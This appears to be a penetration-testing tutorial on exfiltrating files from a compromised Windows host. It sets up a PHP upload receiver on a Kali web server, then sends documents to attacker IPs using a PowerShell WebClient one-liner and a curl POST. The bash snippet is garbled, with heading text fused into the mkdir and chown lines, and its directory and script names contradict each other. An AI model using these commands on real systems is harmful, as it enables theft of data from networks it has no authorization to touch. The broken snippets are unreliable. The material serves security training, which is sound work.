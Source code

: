 In certain scenarios, we may need to exfiltrate data from a target network using a Windows client. This can be complex since standard TFTP, FTP, and HTTP servers are rarely enabled on Windows by default.

Fortunately, if outbound HTTP traffic is allowed, we can use the System.Net.WebClient PowerShell class to upload data to our Kali machine through an HTTP POST request.

To do this, we can create the following PHP script and save it as upload.php in our Kali webroot directory, /var/www/html:

```php
<?php  
$target_dir = "uploads/";  
$target_file = $target_dir . basename($_FILES["targetfile"]["name"]);  
move_uploaded_file($_FILES["targetfile"]["tmp_name"], $target_file)  
?>
```

The PHP code will process an incoming file upload request and save the transferred data to the /var/www/uploads/ directory.

Next, we must create the uploads folder and modify its permissions, granting the www-data user ownership and subsequent write permissions:

```bash
mkdir /var/www/html/web/uploads**# Configuring Directory Ownership with 'www-data' User**  
chown www-data:www-data /var/www/html/web/uploads**# Configuring Directory with Write Permissions**  
chmod 766 /var/www/html/web/uploads
```

Note that this would allow anyone interacting with uploads.php to upload files to our Kali virtual machine.

With Apache and the PHP script ready to receive our file, we move to the compromised Windows host and invoke the UploadFile method from the System.Net.WebClient class to upload the document we want to exfiltrate, in this case, a file named important.docx:

```powershell
C:\Users\Offsec> powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')
```

It is also possible to upload it with curl:

```powershell
curl -H Content-Type:"multipart/form-data" --form targetfile=@"c:\Users\ted\system" -X POST -v http://192.168.119.197/uploads/upload.php
```

After execution of the powershell command, we can verify the successful transfer of the file:

```bash
kali@kali:/var/www/uploads$ ls -la
total 360
drwxr-xr-x 2 www-data www-data   4096 Feb  2 00:38 .
drwxr-xr-x 4 root     root       4096 Feb  2 00:33 ..
-rw-r--r-- 1 www-data www-data 359250 Feb  2 00:38 important.docx
```